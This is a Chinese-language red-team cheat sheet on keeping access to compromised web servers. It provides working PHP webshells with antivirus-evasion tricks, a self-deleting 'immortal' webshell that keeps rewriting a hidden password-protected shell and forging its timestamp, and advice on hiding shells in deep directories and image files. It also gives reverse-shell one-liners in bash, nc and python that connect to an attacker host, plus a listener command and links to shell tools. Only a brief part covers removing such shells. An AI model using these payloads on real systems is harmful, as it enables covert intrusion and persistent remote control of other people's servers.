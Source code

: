 ```yaml
---
title: 【红队】权限维持之--WebShell
---
```

# PHP

**文件免杀（Apache、Nginx特性）**cmd

```php
<? assert(implode(reset(get_defined_vars())));	//返回由所有已定义变量所组成的数组    
Use age：cmd.php?a=system(whoami);
适用于PHP < 7.1 ，因为在PHP7.1之后assert被弃用了、7.2 create_function被弃用了
```

一句话

```php
<? @eval(false ? 1 : $_POST[1]);
```

**流量免杀**

蚁剑自定义编码器 https://github.com/AntSwordProject/AwesomeEncoder/tree/master/php 

**内存马**

```php
//nodie_shell.php
<?php
	set_time_limit(0);			//设置脚本最大执行时间,0 即为无时间限制
	ignore_user_abort(true);	//设置与客户机断开不终止脚本的执行
	unlink(__FILE__);			//删除文件自身
	$file = '/var/www/html/.shell.php';	
	$code = '<?php if(md5($_POST["pass"])=="cdd7b7420654eb16c1e1b748d5b7c5b8"){@system($_POST[a]);}?>';
	while (1) {
		file_put_contents($file, $code);	//写shell文件
		system('touch -m -d "2014-10-31 13:50:11" .shell.php');		//修改时间戳
		usleep(1000);			//以指定的微秒数延缓程序的执行
	}
?>
```

**杀死PHP不死马**

```bash
1、高权限，重启服务
service apache2 restart
service php restart

2、低权限，杀掉所有进程
kill -9 -1
killall apache2
```

# JSP

Tomcat无文件Shell： https://github.com/z1Ro0/tomcat_nofile_webshell 

冰蝎去特征（请参考酒仙桥六号部队的文章）

[冰蝎，从入门到魔改](https://mp.weixin.qq.com/s/s_DcLdhEtIZkC2_z0Zz4FQ)

[冰蝎改造之不改动客户端=>内存马](https://mp.weixin.qq.com/s?__biz=MzU2NTc2MjAyNg==&mid=2247484318&idx=1&sn=ece9e52218be0ea84ef166c3bfd20f23&chksm=fcb7811bcbc0080dd2c39f228dcfe069880218b9f354b1283606af680b1eaecdc07a8a43b188&scene=126&sessionid=1596615082&key=4024143df9a90d6cf039e6e552bb5cc12f755fd25a44855e8dfaff85efc30720e50fd9f3299dbb007c78e96c833dc3df98a87f4c4a4e3ccff0084c0ad0325d06a0265851bfa777df7f014bc8d790632f&ascene=1&uin=MTUwNjgwNTkxMA%3D%3D&devicetype=Windows+10+x64&version=62090070&lang=zh_CN&exportkey=AzFdHdxTih44P2kITVRk35s%3D&pass_ticket=lppPNqJhx8ZD573ypwsqgQ41%2F%2BJd%2B2avwvIfBnLfOjeNcQkihuzk3CgS%2F36Je%2Bnb)

## 隐藏WebShell

> 1、仿照已存在的文件起名字，隐藏在深层目录， 创建…目录隐藏shell（ls -al你就知道为啥了）
>
> 2、利用静态文件，比如图片马然后利用 .htaccess 进行解析
>
> 3、修改WebShell时间戳为同目录下其它文件相同的时间

# 反弹Shell

```bash
#Bash
bash -i >& /dev/tcp/attackerip/6666 0>&1

#nc
nc -e /bin/sh attackerip 6666

#python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.1.1.15",6666));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

#DNS_Shell
https://github.com/ahhh/Reverse_DNS_Shell

#icmp_shell
http://icmpshell.sourceforge.net/

#Linux(index.js)
https://github.com/lukechilds/reverse-shell
```

**PHP**： https://github.com/pentestmonkey/php-reverse-shell 

**JSP**： https://github.com/z3v2cicidi/jsp-reverse-shell 

**ASPX**： https://github.com/borjmz/aspx-reverse-shell 

> **攻击机 VPS 监听接 shell**

```bash
nc -lvp 666
```


